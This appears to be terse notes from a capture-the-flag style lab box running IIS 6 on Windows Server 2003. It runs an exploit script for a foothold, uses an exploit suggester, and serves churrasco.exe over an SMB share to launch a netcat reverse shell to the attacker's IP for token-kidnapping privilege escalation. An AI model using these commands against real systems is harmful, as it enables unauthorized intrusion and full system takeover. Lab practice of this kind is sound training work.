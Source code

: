 ### Foothold
```bash
python exploit.py 10.10.10.14 80 10.10.17.x 1111
```

### Windows Privelege Escalation via Token Kidnapping
https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e

```bash
systeminfo # on the windows target
python3 wes.py --muc-lookup systeminfo.txt # on kali
```

Google `windows server 2003 iis 6 privilege escalation`

```
cd /usr/share/sqlninja/apps
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .

copy \\10.10.17.x\share\churrasco.exe churrasco.exe

churrasco.exe -d "nc.exe -e cmd.exe 10.10.17.x 2222"
```
